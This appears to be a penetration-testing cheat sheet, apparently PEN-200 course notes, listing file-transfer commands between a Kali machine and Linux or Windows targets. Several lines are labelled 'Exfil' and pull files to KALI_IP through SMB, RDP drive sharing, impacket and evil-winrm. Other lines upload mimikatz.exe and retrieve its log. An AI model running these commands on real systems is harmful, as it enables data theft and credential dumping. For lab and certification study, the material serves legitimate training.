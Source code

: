 # ***Linux***
## scp download
```shell
scp kali@KALI_IP:/home/kali/pen200/resources/FILE . [ -P PORT ]
```
## wget
```shell
wget http://KALI_IP/linux/FILE -O outfile
wget -r -np http://KALI_IP/linux/
```

# ***Windows Target***
## xfreerdp
```shell
# 1. Kali
xfreerdp /u:username /p:password /v:target_ip /drive:smb,$PWD +clipboard +smart-sizing 


# Upload
# copy a file to where xfreerdp is running then
cp \\tsclient\smb\FILE FILE

# Exfil
cp FILE \\tsclient\smb\.

# For GUI: Go to NETWORK -> TSCLIENT and the share will be there
```
## impacket-smbserver
``` shell
# 1 Kali
impacket-smbserver smb . -smb2support [ -username user -password pass ]

# 2 Target
net use z: \\KALI_IP\smb [ /user:user pass ]

# From Target, download / upload
cp z:\FILE FILE
cp FILE z:\.

# 3 Delete mapping after user
net use z: /delete
```
## impacket-psexec/wmiexec
```shell
# MUST USE C:\Windows path
lput mimikatz.exe # Upload (to C:\Windows\)
lget mimikatz.log # Exfil (from C:\Windows\)
```
## evil-winrm
```shell
# Upload
upload mimikatz.exe C:\windows\tasks\mimikatz.exe

# Exfil
download mimikatz.log /home/kali/Documents/pen-200`
```
## winhttpserver.exe
```shell
.\winhttpserver.exe -i -p PORT folder_name

# access through Firefox

# https://github.com/TheWaWaR/simple-http-server
```
